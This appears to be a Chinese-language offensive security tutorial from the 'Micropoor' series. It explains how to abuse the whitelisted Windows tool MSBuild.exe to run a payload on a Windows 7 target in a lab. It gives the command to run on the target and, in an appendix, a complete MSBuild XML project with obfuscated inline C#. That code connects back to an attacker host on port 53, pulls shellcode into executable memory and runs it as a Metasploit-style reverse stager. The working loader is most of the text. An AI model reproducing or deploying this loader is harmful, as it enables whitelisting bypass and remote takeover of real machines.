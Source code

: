 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**MSBuild简介：**

MSBuild是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

**说明：**Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

基于白名单MSBuild.exe配置payload：

Windows 7默认位置为：
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe`

**攻击机：**192.168.1.4 Debian
**靶机：** 192.168.1.3 Windows 7

**靶机执行：**
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe Micropoor.xml`
![](media/0dec9e476e8a77edc2e1fa1a43329f76.jpg)

**配置攻击机msf：**
![](media/57d9f8497cc0fcd01e0d51b5b6dc0e2a.jpg)

## 附录：Micropoor.xml
**注：x86 payload**

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">

<!‐‐ C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj Micropoor ‐‐>

<Target Name="iJEKHyTEjyCU">

<xUokfh />

</Target>

<UsingTask

TaskName="xUokfh"

TaskFactory="CodeTaskFactory"

AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\\Microsoft.Build.Tasks.v4.0.dll" >

<Task> 

<Code Type="Class" Language="cs">

<![CDATA[

using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices; using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;

public class xUokfh : Task, ITask {

[DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);

[DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);

static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {

IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx), XBUCexXIrGIEpe);

Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { zCoDOd.Connect(DRHsPzS); }

catch { return null;}

byte[] OCrGofbbWRVsFEl = new byte[4];

zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);

int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);

byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];

int GFtbdD = 0;

while (GFtbdD < auQJTjyxYw)

{ GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw ‐ GFtbdD) < 4096 ? (auQJTjyxYw ‐ GFtbdD) : 4096, 0);}

byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);

Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0] = 0xBF;

return MlhacMDOKUAfvMX;}

static void NkoqFHncrcX(byte[] qLAvbAtan) {

if (qLAvbAtan != null) {

UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);

Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx), qLAvbAtan.Length);

IntPtr WCUZoviZi = IntPtr.Zero;

UInt32 JhtJOypMKo = 0;

IntPtr UxebOmhhPw = IntPtr.Zero;

WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);

WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }} 

public override bool Execute()

{

byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.1.4", 53);

NkoqFHncrcX(uABVbNXmhr); 

return true; } }

]]>

</Code>

</Task>

</UsingTask>

</Project>
```

>   Micropoor
